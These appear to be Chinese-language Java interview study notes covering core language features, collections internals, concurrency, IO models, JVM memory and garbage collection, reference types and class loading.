






# JavaSE基础

## 什么时候用抽象类，什么时候用接口

​	描述一个对象，就使用抽象类（继承只能单继承），比如猫、狗之于动物；具体的行为（或者说具体的业务执行流程），就使用接口（实现可以多实现），比如吃饭之于猫、狗，猫吃鱼，狗吃骨头。

## 面向对象设计的原则有哪些

1. **开闭原则：**

   ​	**描述：**程序应该对扩展开放，对修改关闭。在设计程序时应该可以在不修改原有程序的基础上能扩展其他功能。

   ​	**实现方法：**

   ​		（1）可以把不变的部分抽象成接口，这些接口可以应对未来的扩展；

   ​		（2）接口最小功能设计原则，根据这个原则原有的接口如果无法应对未来的扩展，不足的部分可以通过定义新的接口来实现；

   ​		（3）模块间的调用通过接口进行，这样即使实现层发生变化也无需修改调用方的代码。
2. **里氏替换原则：**子类型必须能够替换掉他们的父类型、并出现在父类能够出现的任何地方。子类可以扩展父类功能，但是不能改变父类原有的功能，子类可以实现父类的抽象方法，但是不能覆盖父类的非抽象方法。
3. **单一职能原则：**只能让一个类、接口、方法有且仅有一个职责，它们需要改变，改变的理由永远只有一个，如果存在多个改变它们的理由就需要重新设计。
4. **接口隔离原则：**一个类对另外一个类的依赖是建立在一个最小的接口之上的。客户端程序不应该依赖它不需要的接口方法。简单的说就是不要创建臃肿庞大的接口，要把接口尽量细化，方法尽量少。
5. **依赖倒转原则：**高层模块不应该依赖于底层模块，两者都应该依赖接口。抽象不能依赖于具体，具体应该依赖于抽象。简单理解就是面向接口编程。
6. **迪米特原则：**又称**最少知道原则**。一个对象应当对其他对象有尽可能少的了解，不和陌生人说话，降低各个对象之间的耦合，提高系统的可维护性。
7. **组合聚合复用原则：**尽量使用对象组合，而不是继承来达到复用的目的。即在一个新的对象里面使用一些已有的对象使之成为新对象的一部分。继承关系是强耦合，组合关系是低耦合。

## 基础数据类型、包装类型

基本数据类型：byte（1字节）、short（2字节）、int（4字节）、long（8字节）、float（4字节）、double（8字节）、char（2字节）、boolean（1字节）

包装数据类型: Byte、Short、Integer、Long、Float、Double、Character、Boolean

**自动装箱、拆箱**

​	 **自动装箱**是 Java 编译器在基本类型和它们对应的包装类之间进行的自动转换。例如，将 int 类型转换为 Integer 类型，将 double 类型转换为 Double 型等等；如果转换以相反的方式进行，则称为**自动拆箱**。

​	需要注意的是，在进行自动装箱和拆箱的过程中，编译器会生成一些额外的代码，因此可能会对性能产生一定的影响。因此，在对性能要求较高的场景下，应尽量避免使用自动装箱和拆箱。

## 访问修饰符

​	public：所有位置的元素都可以访问它。
​	protected：只有同一个包下的元素或者子类中的元素才可以访问它。
​	default：只有同一个包下的元素才可以访问它。
​	private：只有同一个类下的元素才可以访问它。

## ThreadLocal的理解和底层结构

​	顾名思义可以根据字面意思理解成线程本地变量。将一个对象存入当前线程中，在后续执行流程中，任意位置都可以获得该对象数据，从而实现线程内的数据共享。

**应用场景**

* service控制事务和dao访问db，使用conn，必须是同一个。
* mybatis控制事务的sqlsession和访问db的使用sqlsession，必须是同一个。
* 在filter中，拦截通用的参数，处理完毕后，在后续controller service 任意位置都可以直接获取值，比如分页参数。

**底层结构**

​	每个Thread的底层都会维护一个叫做ThreadLocalMap的集合，功能上类似于我们常说Map集合，ThreadLocalMap存放的就是键值对，键是当前ThreadLocal对象的弱引用（非这个对象本身），value是共享数据对象。当调用ThreadLocal.set方法的时候，都是到当前Thread里面的ThreadLocalMap集合里面放元素。

**key是弱引用，那么在GC时是否被回收？**


​	ThreadLocal对象是new出来的会存放在堆内存中，而虚拟机栈则有一个强应用指向堆中的ThreadLocal对象，即便ThreadLocalMap对其引用是弱引用，但是虚拟机栈对其是强引用，所以并不会发生GC时ThreadLocal被回收的问题；

**为什么使用弱引用？**

​	在当前函数new了一个ThreadLocal对象后，当前函数就对该ThreadLocal有了一个强引用的关系，随后当当前函数执行完毕后，那么该函数对ThreadLocal对象的强引用关系也就停止了，此时触发GC时就可以将ThreadLocal就行回收，那么key就变成了null，虽然此时依然存在内存泄露问题（因为Thread还没有终止，此时依然没有释放掉不再使用的ThreadLocalMap），但是弱引用在一定程度上减轻了内存泄漏问题；同时ThreadLocal的get、set、remove方法本身有清除掉key为null的Entry的功能，所以从设计上来说也是合理的：在不出现问题情况下短时间、少量的内存溢出是合理的。

**TheadLocal内存泄漏问题**

​	内存泄露指的是程序已经不在使用某个对象，但是垃圾回收器缺无法回收掉它，如果长期的存在内存泄漏问题可能会导致内存溢出（OOM，out of memory）；

​	就如上面说到的，当前函数在使用完毕ThreadLocal后没有及时的释放掉对ThreadLocalMap的强引用，导致了该对象一直存在在堆内存中而不会被回收；

​	**总的来说，ThreadLocal内存泄漏的根本原因是ThreadLocalMap存在于线程，生命周期比较长，弱引用是用来减轻内存泄漏问题的，并不是设计缺陷。**

## 集合

​	集合主要分为两大类Collection、Map，具体的结构如下：

​	**Collection：**

​			List：

​					ArrayList：线程不安全，底层由数组实现；

​					LinkedList：线程不安全，底层由链表实现；

​					Vector：线程安全，底层由数组实现；

​			Set：	

​					HashSet：线程不安全，底层就是new了一个HashMap，然后value默认为一个被final修饰的名字叫做PRESENT的Object类型的对象；

​					TreeSet：线程不安全，底层是一个TreeMap；

​					LinkedHashSet：线程不安全，底层是一个LinkedHashMap；

​	**Map：**

​			HashMap：线程不安全，底层由数组、链表、红黑树（JDK1.8之后）实现；

​			TreeMap：线程不安全，底层由红黑树实现；

​			LinkedHashMap：线程不安全，底层由数组、双向链表、红黑树实现；

​			HashTable：线程安全，**但是注意，HashTable扩容时采用的是头插法，这才并发扩容的情况下可能会导致死链问题！**底层由数组、链表实现；

​			Properties：线程安全（继承自HashTable），底层由数组、链表实现，主要作用就是用来读写properties后缀的配置文件；

## HashMap底层数据结构

key无序；

key不能重复、value可以重复；

key和value都可以为null；

### 底层结构

​	HashMap底层使用数组+链表+红黑树（1.8之后）方式实现，HashMap将将要存储的值按照key计算其对应的数组下标，如果对应的数组下标的位置上是没有元素的，那么就将存储的元素存放上去，但是如果该位置上已经存在元素了，那么这就需要用到我们上面所说的链表存储了，将数据按照链表的存储顺序依次向下存储就可以了。


### 红黑树转化

​	当HashMap的链表长度>=8,并且数组长度>=64后，会将当前这个链表转化为红黑树；而当红黑树节点<=6时会退化为链接；这里预留一个7就是为了避免频繁的出现红黑树转化。


### 扩容机制

​	对于初始长度为16的数组，当其中存储的数据长度等于16（默认容量大小）* 0.75（默认的负载因子）= 12时。就会对数组元素进行扩容，扩容量是原来数组容量的2倍。

​	在扩容时，会先创建一个新数组，长度是原来的2倍；之后遍历原数组，按照高低位分开进行hash计算在新数组的下标位置，如果数组存放的是红黑树的化会执行untreeify方法进行解树化操作，依然分为高低位存放在新数组对应的位置处，如果新数组的链表节点依然>=8，那么会执行treeify方法进行树化操作；按照**尾插法**插入数据，1.7之前使用的是头插法，这在并发的情况下扩容可能会导致死链问题（也就是环形列表），**但是要注意，即便尾插法解决了并发扩容死链问题但是HashMap依然是线程不安全的！**


## HashSet底层数据结构

​	HashSet 底层就是基于 HashMap 实现的，其源码里就是new了一个HashMap，key就似乎HashSet传入的值，value默认给了一个final修饰的名为PRESENT的Object类型的对象；	

### 为什么HashSet里value值不是null ？

​	因为HashSet调用的remove方法是HashMap的remove方法，这个方法的返回值是被删除key所关联的value，如果不存在key，那么返回值就是null，所以如果在一开始value存放的全部就是null，那么删除时依然返回的就是null，就无法确定是否删除成功。

## HashTable底层数据结构

key无序；

key不能重复、value可以重复；

key和value都不可以为null；

通过Synchronized关键字实现线程安全，效率较低；

### 底层结构

​	HashTable采用数组+链表的数据结构。

### 扩容机制

​	HashTable与HashMap不同，它的默认容量大小是11，默认负载因子是0.75，触发扩容后新的容量大小是乘2+1，扩容流程基本一样。**注意，HashTable的扩容依然采用的是头插法！这在并发扩容情况下可能会导致死链问题！**

## ArrayList的扩容机制

​	ArrayList无参的初始容量是0，第一次扩容会扩容到10，等添加第11个元素的时候发生扩容，一次扩容是原来的1.5倍（**要注意这个扩容1.5倍不是1.5直接与原数组相乘**），然后把旧数组里面的数据复制到新数组里面。

​	扩容的时候先用当前数组的长度右移一位（相当于除以2取整），15>>1==7 然后再加上当前数组长度15，得到新的数组的长度23，这里再看上面的1.5可以看成二分之三，也就是二分之二加上二分之一，**这就是1.5的来源**。

​	当使用addAll的方法进行扩容使，如果原始容量不够，会在下次标准扩容后的大小和当前所有元素数量大小两者之间取最大值。

## String，StringBuilder，StringBuffer的区别?

String不可变性

1. 串池中的字符串, 是jvm级别, 多线程共享, 一旦某个线程修改字符串内容, 导致其他线程对于该字符串引用内容, 发生意外修改,
   不安全.
2. String对象,在做字符串拼接,修改字符串, 必须新创建一个新的字符串.---(字符串不可变性)
   总结: 字符串对象一旦创建, 内容是不会改变.

题目答案：

1. String不可变性导致拼接会产生大量中间对象, 浪费时间, 浪费空间 效率降低.
2. StringBuilder可变字符串, 在拼接, 避免中间对象的产生,节省空间, 节省时间. 效率高.

补充

​	String 字符串常量 不可变 使用字符串拼接时是不同的2个空间
​	StringBuffer 字符串变量 可变 字符串拼接直接在后面追加 线程安全
​	StringBuilder 字符串变量 可变 字符串拼接直接在后面追加 非线程安全

## Integer a = 128;Integer b = 128; a == b的结果是什么?

常量池：

1. jvm认为数字 -128 ~ 127之间的数字在java程序使用频率是最高。
2. 每次使用数字， 都需在内存中开辟空间(占用空间)， 初始化数据(消耗时间)
3. jvm启动时候，会在内存中先初始化一定数量的数字：-128~127之间。
4. 后续java程序运行期间， 凡是需要使用-128~127之间数字的，都直接从常量池获取，减少数字重复占用内存， 减少数字创建等待时间。效率提升了。

## 深拷贝和浅拷贝的区别

浅拷贝：被复制对象的所有属性都含有与原来的对象相同的值，而所有的对其他对象的引用仍然指向原来的对象，换言之，浅拷贝仅仅复制所拷贝的对象，而不复制它里面所引用的对象。

深拷贝：被复制对象的所有属性都与原来的对象相同，而那些引用其他对象的属性将指向被复制过的新对象，而不再是原有的那些被引用的对象，换言之，深拷贝除了赋值所拷贝的对象，还要复制的该对象里面所引用的对象。

引用拷贝：指复制了原对象的引用，两个对象均指的是同一块内存堆中的对象。

Java中的clone()方法默认就是浅拷贝，如果要实现深拷贝，就需要在clone()方法中手动实现对 其他对象的复制操作。

## 常见设计模式

**单例、工厂、代理、策略、责任链、建造者、观察者、装饰器、适配器、模板**

下列设计模式具体的代码参考可以查看仓库：https://github.com/360736293/DesignPatternDemo

**单例：**单例是在整个应用程序环境中只会存在一份对象，分为饿汉式单例模式和懒汉式单例模式，饿汉式是在类初始化的时候将所有的单例对象全部生成，而懒汉式是在使用的时候才会生成对象。

**工厂：**工厂是通过给一个工厂类传入指定参数来实例化一个对象，它与策略设计模式类似，但是工厂更侧重的是对象的实例化，比如生成的对象是猫还是狗。

**代理：**代理是对原始类进行增强，比如在原始类的方法执行前后进行一些操作。它分为静态代理和动态代理，静态代理是在编译期间就已经生成代理类，而动态代理是在运行期间生成代理类，静态代理的缺点是每个代理类只能代理一个原始类，而动态代理可以代理多个原始类。

**策略：**策略通过给一个策略类传入指定参数来决定处理的逻辑，它与工厂设计模式相比，更侧重的是逻辑的处理，比如支付方式应该选择支付宝还是微信。

**责任链：**责任链是将一个请求按照一定的顺序交给多个处理器来进行处理，每个处理器都可以对其进行处理或者传递给链上的下一个处理器。

**建造者：**建造者是将一个复杂对象的创建分解为多个简单的对象一步一步构建而成，它注重方法的调用顺序，它还将变与不变相分离，即产品的组成部分是不变的，但每一部分是可以灵活选择的。

**观察者：**观察者由成为发布订阅模式，是在对象之间定义一种一对多的依赖关系，当一个对象的状态发生改变时，所有依赖于它的对象都会得到通知并自动更新。

**装饰器：**装饰器是在不改变原始类的情况下，对原始类进行增强，比如在原始类的方法执行前后进行一些操作，它有点类似代理模式，但是代理模式做的额外处理跟原始方法没有关系，比如权限控制日志打印，而装饰器则是对原始方法进行扩展添加额外的功能。

**适配器：**适配器是将一个类的接口转换成客户希望的另一个接口，它使得原本由于接口不兼容而不能一起工作的那些类可以一起工作，比如写一个适配器类，然后实现一个目标接口，同时持有一个需要适配的适配者类对象。通过适配器类的中间转换实现了适配器类与目标接口的兼容。

**模板：**模板是在一个抽象类中定义了执行它的方法模板，它的子类可以按照需要重写方法进行实现，但具体的使用将以抽象类中定义的方式进行。

# JavaSE高级

## Java中synchronized 和 ReentrantLock 有什么不同

**相似点：**

这两种同步方式有很多相似之处，它们都是加锁方式同步，而且都是阻塞式的同步，也就是说当如果一个线程获得了对象锁，进入了同步块，其他访问该同步块的线程都必须阻塞在同步块外面等待，而进行线程阻塞和唤醒的代价是比较高的.

| 比较项   | ReentrantLock（可重入锁）                                                                      | synchronized                                              |
| ----- | ---------------------------------------------------------------------------------------- | --------------------------------------------------------- |
| 原始构成  | 它是JDK 1.5之后提供的API层面的互斥锁类                                                                 | 它是java语言的关键字，是原生语法层面的实现，通过jvm实现的一个功能                      |
| 实现    | api层面的加锁解锁，需要手动释放锁                                                                       | 通过JVM加锁解锁                                                 |
| 代码编写  | 而ReentrantLock则必须要用户去手动释放锁，如果没有主动释放锁，就有可能导致出现死锁现象。需要lock()和unlock()方法配合try/finally语句块来完成 | 当synchronized方法或者synchronized代码块执行完之后，系统会自动让线程释放对锁的占用，更安全 |
| 灵活性   | 灵活性更好，可以跨方法调用加锁和解锁                                                                       | 只能应用在一个方法块里面，不能跨方法调用                                      |
| 等待可中断 | 可以在调用加锁代码的时候指定等待时长，当超过这个时长后线程就不再等待了。                                                     | 无法实现中断操作，必须等前面的线程释放锁，他才能做事情。                              |
| 公平性   | 可以实现公平锁                                                                                  | 不能实现公平锁                                                   |
| 适用情况  | 在高并发情况下比synchronized性能要好                                                                 | 在并发量不高的情况下效率更高                                            |

## IO流以及BIO、NIO、AIO

### IO流

按照**传输方向**可以分为：

​	1、输入流InputStream；

​	2、输出流OutputStream；

按照**功能**可以分为：

​	1、节点流：从或者向一个方向进行读写数据；

​	2、处理流：对一个已经存在的流进行包装，处理流的构造方法总是要带一个其他的流对象做参数，一个流对象经过其他流的多次包装称为**流的链接**；

按照**处理数据的单位**可以分为：

​	1、字节流，继承于 InputStream 和 OutputStream；

​	2、字符流，继承于 InputStreamReader 和 OutputStreamWriter；

**为什么要用缓冲流？**

​	缓冲流作用是把数据先写入缓冲区，等缓冲区满了，再把数据写到文件里。这样就大大提高了效率；如果不用缓冲流的话，程序是读一个数据，写一个数据。这样在数据量大的程序中非常影响效率。

### BIO：

​	同步阻塞IO，数据的读取写入必须阻塞在一个线程内等待其完成，会导致CPU使用效率大大降低，传统的IO流就是BIO；

### NIO：



​	同步非阻塞IO，在JDK1.4之后引入，提供了三个概念Selector（选择器），Channel（通道），Buffer（缓冲区），通过三者的结合使用实现了**多路复用**（**这里的复用是复合使用的意思，不是重复使用**），将多个低速的IO流逻辑上合并成了一个高速的IO流，提高了CPU的使用效率；网络通讯框架Netty就使用到了这种IO模型；

​	Selector：选择器，允许单线程处理多个 Channel。如果你的应用打开了多个连接（通道），但每个连接的流量都很低，使用Selector就会很方便。要使用Selector，得向Selector注册Channel，然后调用它的select()方法。这个方法会一直阻塞到某个注册的通道有事件就绪。一旦这个方法返回，线程就可以处理这些事件。

​	Channel：通道，类似于IO流，既可以向通道中写入数据又可以向通道中读取数据（双向的，但是流是单向的），通道可以异步地进行读写，通道中的数据的读写要先将数据读写到一个 Buffer中，然后才可以通过Channel进行传输到另一个Buffer中；

​	Buffer：缓冲区，数据都是从通道读入到缓冲区或者从缓冲区写入到通道中的；

**NIO使用了零拷贝技术，什么是零拷贝**

​	 零拷贝描述的是CPU不执行从一个存储区域拷贝到另一个存储区域的任务（比如从内核空间和用户空间之间的相互拷贝），这通常用于通过网络传输一个文件时以减少CPU资源消耗和内存占用，通常零拷贝技术还能够减少操作系统的内核空间和用户空间之间的上下文切换。

​	从Linux系统上看，除了引导系统的BIN区，整个内存空间主要被分成**内核空间（Kernel Space）**和**用户空间（User space）**，这两个空间的操作权限以及作用都是不一样的。

​	**内核空间**是Linux自身使用的内存空间，主要提供给程序调度、内存分配、连接硬件资源等程序逻辑使用；

​	**用户空间**则是提供给各个进程的主要空间；

​	用户空间不具有访问内核空间资源的权限，因此如果应用程序需要使用到内核空间的资源，则需要通过系统调用来完成：从用户空间切换到内核空间，然后在完成相关操作后再从内核空间切换回用户空间。

​	零拷贝实际的实现并没有真正的标准，取决于操作系统如何实现这一点。零拷贝完全依赖于操作系统。操作系统支持，就有；不支持，就没有，不依赖Java本身。

​	NIO的零拷贝由transferTo方法实现。transferTo方法将数据从FileChannel对象传送到可写的字节通道（如Socket Channel等）。在transferTo方法内部实现中，由native方法transferTo0来实现，它依赖底层操作系统的支持。在UNIX和Linux系统中，调用这个方法会引起sendfile()系统调用，实现了数据直接从内核的读缓冲区传输到套接字缓冲区，避免了用户态(User-space) 与内核态(Kernel-space) 之间的数据拷贝。

### AIO：

​	异步IO，或者称为NIO2，在JDK1.7之后引入，AIO与NIO的主要区别在于使用异步通道去执行IO操作，所有的操作都是异步的，本质上都会交由操作系统完成，比如要接收一个客户端的数据时，操作系统会先将通道中可读的数据先传入read回调方法指定的缓冲区中，然后再主动通知Java程序去处理。目前来说（2023年11月） AIO 的应用还不是很广泛，Netty 之前也尝试使用过 AIO，不过其认为在Linux系统中AIO的速度并没有快于NIO，所以就放弃了。

## 线程状态

在java中线程有以下5中状态：

new：创建状态，线程已经创建，但是没有执行start()方法；

runnable：就绪状态，线程可以再JVM中运行，但是需要等待CPU处理：

running：运行状态，就绪状态的线程获得了CPU执行资源，执行run()中的代码；

blocked：阻塞状态，遇到synchronized且没有获取到锁就会进入这个状态；

waiting：等待状态：使用wait()，join()方法时就会进入到这个状态；

timed_waiting：计时等待状态，使用Thread.sleep()就会进入到这个状态；

terminated：终止状态，线程中断或者结束就会进入到这个状态；

## 线程间通信

1、volatile关键字：

​	在并发编程中，多个线程可能同时访问同一个变量，而每一个线程会将内存中的数据拷贝到各自的本地内存中，如果这个变量不是Volatile类型的，那么一个线程对它的修改可能不会立即被其他线程看到，因为其他线程可能还在使用它们自己的缓存拷贝。这就会导致线程间的数据不一致。
​	volatile关键字可以解决这个问题。当一个变量被定义为volatile类型时，任何对它的修改都会立即刷新到主内存中，而不是等到线程结束或者锁被释放。同时，当其他线程需要访问这个变量时，它们会从主内存中读取最新的值。这样就保证了线程间数据的一致性。

2、synchronized关键字：

​	在多个线程里使用synchronized对同一个对象进行加锁，在同一时间里只有一个线程持有这个锁那么可以使多个线程按照一定的顺序执行，此时他们对临界资源的操作就不会存在并发问题。

3、wait/notify机制：

​	Java多线程的等待/通知机制是基于Object类的wait()方法和notify()，notifyAll()方法来实现的，通常要配合synchronized同步代码块来使用，使用synchronized对充当锁的对象进行加锁后，可以使用notify()方法随机叫醒一个正在等待这个锁对象的的线程，也可以使用notifyAll()叫醒所有正在等待这个锁对象的线程进行锁资源竞争；当使用wait()方法后当前线程会释放锁资源并进入等待状态等待唤醒。

4、join方法：

​	join()方法是Thread类的一个实例方法。它的作用是让当前线程陷入“等待”状态，等join的这个线程执行完成后，再继续执行当前线程。有时候，主线程创建并启动了子线程，如果子线程中需要进行大量的耗时运算，主线程往往将早于子线程结束之前结束。如果主线程想等待子线程执行完毕后，获得子线程中的处理完的某个数据，就要用到join方法了。

5、并发工具类：

Semaphore（信号量）：信号量的一个最主要的作用就是，来控制那些需要限制并发访问量的资源。比如在接口限流中，可以针对某个接口设置一个信号量，在执行这个接口里面的方法时，先通过acquire()获取一个许可证，没有获取到就阻塞，可以使用release()方法来释放一些许可证。

CountDownLatch（倒数插销）：其中有两个核心的方法countDown与await，其中当我们调用countDown方法时相应的N的值减1，而await方法则会阻塞当前线程，直到N的值变为零，最典型的案例就是体育中的跑步，假设现在我们要进行一场赛跑，那么所有的选手都需要等待裁判员的起跑命令，这时候，我们将其抽象化每个选手对应的是一个线程，而裁判员也是一个线程，那么就是多个选手的线程再等待裁判员线程的命令来执行。

CyclicBarrier（循环屏障）：CyclicBarrier与CountDownLatch比较相似，都是当等待到一定数量的线程后开始执行某个任务，CyclicBarrier 的字面意思是可以循环使用的屏障，可以使用reset方法来重制拦截数量，它的功能就是让一组线程到达一个屏障（同步点）时被阻塞，直到最后一个线程到达屏障时，所有被屏障阻塞的线程才能继续执行。

Exchanger（交换者）：是一个用于线程间协作的工具类，它主要用于进行线程间数据的交换，它有一个同步点，当两个线程到达同步点时可以将各自的数据传给对方，如果一个线程先到达同步点则会等待另一个到达同步点，到达同步点后调用 exchange 方法可以传递自己的数据并且获得对方的数据。应用场景比如现在需要录入一些重要的账单信息，为了保证准备，让两个人分别录入，到达同步点的时候保存当前的数据，然后使用exchange进行交换，之后再进行对比后是否一致，防止出现错误。

ReentrantLock（可重入锁）：需要用户去手动加锁、释放锁，如果没有主动释放锁，就有可能导致出现死锁现象。需要lock()和unlock()方法配合try/finally语句块来完成。

## 线程创建的几种方式

1. 通过继承Thread类。
2. 实现Runnable接口。
3. 实现Callable接口，线程执行完毕后可以获取到线程运行的结果。
4. 通过线程池技术。

## **为什么要使用线程池（线程池的作用）,线程池的初始化参数**

​	线程池可以保存若干个线程对象，不用每次使用线程的时候都去创建，频繁创建和销毁线程需要浪费资源。各个任务执行完毕后把线程归还给线程池不用销毁和创建线程，节约了资源。

线程池的七个参数：

1. 核心线程数

2. 最大线程数，核心线程数+额外线程数

3. 空闲时间

4. 空闲时间的单位

5. 任务队列

6. 线程工厂。可以对创建的线程进行自定义。

7. 拒绝策略。线程池给了我们若干个默认策略。我们可以重写接口实现拒绝策略。一般我们创建线程池时，为防止资源被耗尽，任务队列都会选择创建有界任务队列，但种模式下如果出现任务队列已满且线程池创建的线程数达到你设置的最大线程数时，这时就需要你指定ThreadPoolExecutor的RejectedExecutionHandler参数即合理的拒绝策略，来处理线程池"超载"的情况。

   ThreadPoolExecutor自带的拒绝策略如下：

​			（1）AbortPolicy策略：该策略会直接抛出异常，阻止系统正常工作；

​			（2）CallerRunsPolicy策略：如果线程池的线程数量达到上限，该策略会把任务队列中的任务放在调用者线程当中运行；

​			（3）DiscardOledestPolicy策略：该策略会丢弃任务队列中最老的一个任务，也就是当前任务队列中最先被添加进去的，马上要被执行的那个任务，并尝试再次提交；

​			（4）DiscardPolicy策略：该策略会默默丢弃无法处理的任务，不予任何处理。当然使用此策略，业务场景中需允许任务的丢失；


## JVM的内存结构

jvm的内存有五块内容：

​	1、**方法区（线程共享）：**存储一些静态变量以及常量信息（类的信息、常量池）。

​	2、**堆（线程共享）：**存储程序运行过程中产生的对象信息（也就是new出来的都在这里）。堆空间被划分成了两大块。

​		（1）新生代（三分之一的堆内存空间）：

​				新生代分了三块区域分别是伊甸区、幸存区From、幸存区To，内存占比为8:1:1；

​		（2）老年代（三分之二的堆内存空间）：老年代做垃圾回收时需要消耗更多的时间，所以我们应该避免老年代的垃圾回收。在做垃圾回收的时候，我们的业务线程会停止下来，供垃圾回收线程工作。这个现象被称为stop the world简称stw。

​	3、**虚拟机栈（线程独占）：**一个线程对应一个虚拟机栈。虚拟机栈对应的是栈结构，一个栈里面的一个元素我们称之为栈帧。一个栈帧对应一个java方法。一个栈帧包含了很多信息：1.局部变量表。2.操作数栈。3.动态链接。4.方法的返回地址。

​	**动态链接**：指的是**指向运行时常量池的方法引用**，Java源文件被编译到字节码文件中时，所有的变量和方法引用都作为符号引用（Symbolic Reference）保存在class文件的常量池里，在程序运行中当一个方法被调用时，需要将符号引用所代表的方法压入虚拟机栈，通过动态链接就可以找到运行时常量池中具体的方法（或者说根据动态链接，可以将方法的符号引用转换为直接引用）。

​	4、**本地方法栈（线程独占）：**跟虚拟机栈结构类似，区别是本地方法栈里面存储的是被native修饰的方法。虚拟机栈里面存储的是一般方法。

​	5、**程序计数器（线程独占）：**一个线程有一个程序计数器空间，这块空间用来保存当前线程执行到哪行代码。




## JVM的垃圾回收机制

### 如何判断一个对象是否可以回收？

​	在进行垃圾回收时，首先需要判断一个对象是否可以被回收，有两种方法**引用计数算法**和**可达性分析算法**。

​	1、**引用计数算法：**为对象设置一个引用计数器，当对象增加一个引用时计数器加1，引用失效时计数器-1，引用计数为0的对象可以被回收。如果两个对象相会引用就会出现循环引用问题，两个对象无法被回收。

​	2、**可达性分析算法：**基本思想通过一系列 GC Roots对象作为起点，从这些节点开始向下搜索，节点走过的路径成为引用链，当一个对象到GC Roots没有任何引用链时也就是不可达，那么就说明该对象可以被回收。

**GC Roots有哪些？**

**1、虚拟机栈中引用的对象**
比如：各个线程被调用的方法中使用到的参数、局部变量等。

**2、本地方法栈内JNI（通常说的本地方法）引用的对象**

**3、方法区中类静态属性引用的对象**
比如：Java类的引用类型静态变量

**4、方法区中常量引用的对象**
比如：字符串常量池（string Table） 里的引用

**5、所有被同步锁synchronized持有的对象**

**6、Java虚拟机内部的引用。**
基本数据类型对应的Class对象，一些常驻的异常对象（如：NullPointerException、OutOfMemoryError） ，系统类加载器。

**7、反映java虚拟机内部情况的JMXBean、JVMTI中注册的回调、本地代码缓存等**

**8、除了这些固定的GCRoots集合以外，根据用户所选用的垃圾收集器以及当前回收的内存区域不同，还可以有其他对象“临时性”地加入，共同构成完整GC Roots集合。比如：分代收集和局部回收（Partial GC）。**

### 垃圾回收过程

​	（1）在刚开始创建对象时，如果大对象无法放入到伊甸区会直接放入到老年代；

​	（2）当伊甸区满了之后进行第一次垃圾回收，将有用的对象放入到幸存区From中，该对象年龄+1；

​	（3）当伊甸区再次满了之后会和幸存区From一起进行第二次垃圾回收，将有用的对象放入到幸存区To中，该对象年龄+1，之后清空伊甸区和幸存区From，颠倒From和To的逻辑关系，From变To，To变From，进行下一轮循环；

​	（4）当幸存区对象年龄到达15后还未被回收会放入到老年代里；

​	（5）大对象直接放入到老年代（根据JVM配置的属性-XX:PretenureSizeThreshold决定）；

​	（6）当复制给幸存区的对象无法装下时放入到老年代；

​	（7）在进行Minor GC之前，判断年轻代所有对象所有占空大于老年代剩余连续空间时，先进行Full GC，再进行Minor GC；

### 为什么要拆分两个幸存区？

​	设置两个幸存区的最大好处就是解决了内存碎片化问题，如果只有一个幸存区，一旦伊甸区满了触发一次Minor GC，伊甸区中存活的对象就会放入到幸存区，等到下一次伊甸区满了之后再次Minor GC此时伊甸区和幸存区各有一部分存活对象，而新生代使用的垃圾回收算法是**标记-复制法**，如果此时硬把伊甸区的存活对象放入到幸存区里那么很明显这两部分对象所占有的内存是不连续的，就会导致内存碎片化。

### 垃圾回收算法

​	1、标记-清除法：标记出所有不需要回收的对象，在标记完成后统一回收掉没有被标记的对象。

​				不足：标记和清除过程的效率都不高；会产生大量的内存碎片，导致无法给之后的大对象分配内存；

​	2、标记-复制法：将内存划分为大小相等的两块，每次只使用其中一块，当这一块内存用完了之后就进行垃圾回收，将存活的对象复制到另一块上面，然后把之前的那块清空。

​				不足：内存只有一半的使用率，所以在大多数JVM里面的新生代会将伊甸区和幸存区From、幸存区To按照一定的比例来进行分配；

​	3、标记-整理法：标记所有不需要回收的对象，让存活的对象都向一端移动，然后清掉端边界以外的内存。

​				不足：因为需要对内存空间进行移动所以在垃圾回收的过程中会慢。

## Java的四种引用，强软弱虚

### 强引用

强引用是平常中使用最多的引用，强引用在程序内存不足（OOM）的时候也不会被回收，使用方式：
String str = new String("str");

### 软引用

软引用在程序内存不足时，会被回收，使用方式：
// 注意：wrf这个引用也是强引用，它是指向SoftReference这个对象的，
// 这里的软引用指的是指向new String("str")的引用，也就是SoftReference类中T
SoftReference<String> wrf = new SoftReference<String>(new String("str"));

可用场景： 创建缓存的时候，创建的对象放进缓存中，当内存不足时，JVM就会回收早先创建的对象。

### 弱引用

弱引用就是只要JVM垃圾回收器发现了它，就会将之回收，使用方式：
WeakReference<String> wrf = new WeakReference<String>(str);
可用场景： Java源码中的 java.util.WeakHashMap 中的 key 就是使用弱引用，我 的理解就是，一旦我不需要某个引用，JVM会自动帮我处理它，这样我就不需要做其它操作。

### 虚引用

虚引用的回收机制跟弱引用差不多，但是它被回收之前，会被放入 ReferenceQueue 中。注意哦，其它引用是被JVM回收后才被传入
ReferenceQueue 中的。由于这个机制，所以虚引用大多被用于引用销毁前的处理工作。还有就是，虚引用创建的时候，必须带有
ReferenceQueue ，使用
例子：
PhantomReference<String> prf = new PhantomReference<String>(new String("str"), new ReferenceQueue<>());
可用场景： 对象销毁前的一些操作，比如说资源释放等。Object.finalize() 虽然也可以做，这类动作，但是这个方式即不安全又低效

上诉所说的几类引用，都是指对象本身的引用，而不是指 Reference 的四个子类的引用
( SoftReference 等)。

## 常见的cms和g1两种垃圾回收器的区别

|        |                           |                         |
| ------ | ------------------------- | ----------------------- |
|        | cms                       | g1                      |
| 使用范围   | cms是老年代的收集器要配合新生代的收集器一块使用 | 可以用在新生代和老年代里面不需要配合其他收集器 |
| stw的时间 | 以最小的停顿时间为目标               | 可预测垃圾回收的停顿时间            |
| 垃圾碎片   | 标记-清除算法，容易产生内存碎片          | 标记-整理算法，降低了内存空间碎片       |
| 回收过程   | 初始标记-并发标记-重新标记-并发清除       | 初始标记-并发标记-最终标记-筛选回收     |

## **Java类加载器，什么是双亲委派模型？**

类加载器顾名思义，就是做类加载的。虚拟机把描述类的数据从class字节码文件加载到内存，并对数据进行检验、转换解析和初始化，最终形成可以被虚拟机直接使用的Java类型，这就是虚拟机的类加载机制。它在JVM外部，负责将class文件，解析成JVM能识别的Java的类,类加载器ClassLoader中它生命周期包括加载、链接、初始化,链接又分为
验证，准备，解析三个部分。记不住没关系，我们有口诀“家宴准备了西式菜”，即家(加载)宴(验证)准备 (准备)了西(解析)式(初始化)菜。

**加载：**即通过类加载器读取.class文件中的二进制字节流，并将其转换成JVM中的类信息存储在方法区，同时在堆中生成一个代表这个类的Class对象，作为对方法区中这些数据访问的入口。
